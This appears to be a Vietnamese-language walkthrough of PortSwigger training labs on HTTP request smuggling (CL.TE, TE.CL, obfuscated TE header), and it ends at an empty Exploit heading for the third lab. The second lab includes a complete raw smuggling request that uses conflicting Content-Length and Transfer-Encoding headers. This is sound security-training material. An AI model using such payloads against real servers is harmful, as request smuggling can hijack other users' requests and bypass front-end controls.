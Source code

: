 # [Portswigger] HTTP request smuggling

***

## 1. Lab: HTTP request smuggling, basic CL.TE vulnerability

* Content:
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.
```
* Giao diện web:

<img width="598" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/2ae9cf1d-c0b7-470c-98b7-7e7852a7bf97">

* Exploit:

Thực hiện `Change Request Method` sang từ `GET` thành `POST`, lưu ý chuyển sang sử dụng `HTTP/1.1`

Tiến hành send request trên 2 lần => Đến lần thứ 2 sẽ ra thông báo lỗi như yêu cầu của đề bài.

![telegram-cloud-photo-size-5-6127662865662981520-y](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/65aa6883-737f-467f-af44-65c6e95be974)

Lab Solved!!!

![telegram-cloud-photo-size-5-6127662865662981521-y](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/e7e5cb93-e7bb-4b4c-a22f-f848f18db027)

***
## 2. Lab: HTTP request smuggling, basic TE.CL vulnerability

* Content:
```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.
```
* Exploit:

```
POST / HTTP/1.1
Host: 0a5700bd049eb5f080b3262900b000fa.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

x=1
0


```

<img width="623" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/1bbb7951-f460-4787-98ae-c1ee22e921b0">

***

## 3. Lab: HTTP request smuggling, obfuscating the TE header

* Content:
```
This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.
```

* Exploit:


